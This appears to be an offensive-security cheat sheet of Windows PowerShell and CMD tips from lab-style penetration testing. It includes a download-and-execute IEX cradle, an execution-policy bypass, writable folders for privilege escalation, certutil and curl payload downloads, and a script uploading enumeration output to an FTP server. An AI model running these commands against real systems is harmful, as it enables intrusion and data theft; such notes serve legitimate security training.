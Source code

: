 # Windows CLI Tips

## Powershell

### Load Powershell Module Over HTTP

Load Powershell Module Over HTTP:

```
IEX (New-Object Net.WebClient).DownloadString('http://example.com/some_module.ps1');'
```

### Bypass Powershell Execution Policy

If you don't bypass the execution policy, you won't be able to run external powershell scripts. Run Powershell with Execution Policy Bypass:

```
powershell.exe -ExecutionPolicy Bypass
```

### **Switch to 64-bit Powershell from 32-bit**

If you're on a 64-bit machine and running a 32-bit Powershell, [then some things might not work, such as autologon discovery](https://youtu.be/Cz6vQvGGiuc?t=2491).&#x20;

* Check in powershell:
  * \[environment]::Is64BitOperatingSystem
  * \[environment]::Is64BitProcess
* Access 64-bit Powershell at:&#x20;
  * C:\Windows\SysNative\WindowsPowerShell\v1.0\Powershell.exe
  * This path should exist for 32-bit applications **even if you can't see it** [because it is virtual.](https://www.samlogic.net/articles/sysnative-folder-64-bit-windows.htm)
  * Just running that executable from an existing 32-bit executable might not work. I got it to work when I rewrote the original payload to use this path instead of just powershell.exe with no path.

### View Hidden Files

```
Get-ChildItem -Force
```

### Running Powershell commands from CMD

You can do it like this, but you need to press enter to get the output.&#x20;

```
powershell -command "whoami"
```

### Writable Folders

[Default Writeable Folders](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md):

* C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
* C:\Windows\System32\spool\drivers\color
* C:\Windows\Tasks
* C:\Windows\tracing
* C:\Windows\Temp
* C:\Users\Public

### Transferring Files

{% embed url="https://guide.offsecnewbie.com/transferring-files" %}

#### HTTP Download

Start an HTTP server on your Linux machine:&#x20;

```
python3 -m http.server
```

Download file over HTTP using curl (in case it's installed in Powershell):&#x20;

```
curl http://IP:PORT/file.exe -O ./file.exe
```

Download file using certutil:&#x20;

```
certutil.exe -f -urlcache http://IP:PORT/path/filename.exe filename.exe
```

#### FTP Upload

Start an FTP server on your linux machine:&#x20;

```
pip3 install pyftpdlib 
python3 -m pyftpdlib --username myuser --password mypass --write
```

If you don't specify username and password, then you can log in with user anonymous and no password.

```
$File = "C:\Users\svc-alfresco\Documents\winpeas.txt";
$ftp = "ftp://myuser:mypass@10.10.14.141:2121/winpeas.txt";                    
$webclient = New-Object -TypeName System.Net.WebClient;
$uri = New-Object -TypeName System.Uri -ArgumentList $ftp;
$webclient.UploadFile($uri, $File);
```

